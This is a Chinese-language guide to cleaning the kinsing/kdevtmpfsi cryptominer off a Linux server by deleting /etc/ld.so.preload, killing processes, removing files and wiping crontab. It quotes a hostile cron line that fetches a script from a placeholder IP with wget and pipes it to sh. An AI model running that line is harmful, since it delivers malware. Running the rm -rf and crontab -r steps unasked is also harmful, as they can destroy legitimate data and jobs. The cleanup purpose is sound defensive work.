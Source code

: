 > **查看隐藏病毒进程的linux配置文件**

```
ls /etc/ld.so.preload
```

查看恶意配置文件`ld.so.preload`是否存在

> **删除隐藏病毒进程的linux配置文件**

```
rm -rf /etc/ld.so.preload
```

若恶意配置文件`ld.so.preload`存在，删除此文件

> **查看CPU**

```
top
```

查看是否存在挖矿病毒`kdevtmpfsi`和`kinsing`，有则说明服务器中毒

> **查看病毒进程**

```
ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi
```

查看是否存在挖矿病毒`kdevtmpfsi`和`kinsing`，有则说明服务器中毒

> **查找病毒文件**

```
find / -name "kdevtmpfsi"

find / -name "kinsing"
```

获取病毒文件所在目录

> **进入病毒文件所在目录删除病毒文件**

```
rm -rf /tmp/kdevtmpfsi

rm -rf /var/tmp/kdevtmpfsi

rm -rf /etc/kinsing
```

请按实际情况病毒所在的位置删除

> **删除病毒进程**

```
ps -aux | grep kdevtmpfsi |grep -v grep|cut -c 9-15 | xargs kill -9

ps -aux | grep kinsing |grep -v grep|cut -c 9-15 | xargs kill -9
```

> **查看定时任务**

```
crontab –l
```

若存在类似`/bin/sh -c wget -q -O - http://xxx.xxx.xxx.xxx/xxx.sh | sh > /dev/null 2>&1`（一般为黑客定时任务）的定时任务，请删除此定时任务

> **删除定时任务**

```
crontab –r
```

请在不影响业务正常运行的情况下，按实际情况删除

> **最终排查**

```
crontab –l

ps -aux | grep kinsing

ps -aux | grep kdevtmpfsi

find / -name "kinsing"

find / -name " kdevtmpfsi "
```

若上述命令都没有病毒相关信息，则说明病毒删除完成
